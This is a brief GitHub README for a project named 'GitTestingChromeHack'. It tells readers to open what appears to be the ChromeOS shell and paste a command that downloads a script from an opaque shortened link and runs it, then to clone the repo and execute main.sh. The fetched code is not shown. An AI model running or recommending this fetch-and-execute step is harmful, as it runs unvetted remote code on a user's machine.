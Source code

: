 # GitTestingChromeHack

# Install Requirements
Press Ctrl+Alt+T<br>
Type Shell<br>
then paste this code
```bash   
   exec bash --init-file <(curl -Ls git.io/vddgY) 
```

# Use
```bash
    git clone https://github.com/elliothegamer2/GitTestingChromeHack
    cd GitTestingChromeHack/ShellTesting
    chmod a+x main.sh
    ./main.sh
```
